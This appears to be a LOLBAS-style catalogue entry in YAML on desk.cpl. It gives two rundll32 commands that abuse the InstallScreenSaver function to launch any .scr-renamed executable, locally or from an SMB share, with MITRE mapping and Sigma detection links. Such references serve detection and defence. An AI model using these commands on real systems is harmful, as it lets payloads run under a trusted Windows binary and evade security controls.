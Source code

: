 ```yaml
---
Name: Desk.cpl
Description: Desktop Settings Control Panel
Author: Hai Vaknin
Created: 2022-04-21
Commands:
  - Command: rundll32.exe desk.cpl,InstallScreenSaver C:\temp\file.scr
    Description: Launch an executable with a .scr extension by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
  - Command: rundll32.exe desk.cpl,InstallScreenSaver \\127.0.0.1\c$\temp\file.scr
    Description: Launch a remote executable with a .scr extension, located on an SMB share, by calling the InstallScreenSaver function.
    Usecase: Launch any executable payload, as long as it uses the .scr extension.
    Category: Execute
    Privileges: User
    MitreID: T1218.011
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\desk.cpl
  - Path: C:\Windows\SysWOW64\desk.cpl
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_new_src_file.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_installscreensaver.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/master/rules/windows/registry/registry_set/registry_set_scr_file_executed_by_rundll32.yml
Resources:
  - Link: https://vxug.fakedoma.in/zines/29a/29a7/Articles/29A-7.030.txt
  - Link: https://twitter.com/pabraeken/status/998627081360695297
  - Link: https://twitter.com/VakninHai/status/1517027824984547329
  - Link: https://jstnk9.github.io/jstnk9/research/InstallScreenSaver-SCR-files
Acknowledgement:
  - Person: Rafael S Marques
    Handle: '@pegabizu'
  - Person: Pierre-Alexandre Braeken
    Handle: '@pabraeken'
  - Person: hai
    Handle: '@VakninHai'
  - Person: Christopher Peacock
    Handle: '@SecurePeacock'
  - Person: Jose Luis Sanchez
    Handle: '@Joseliyo_Jstnk'
---
```

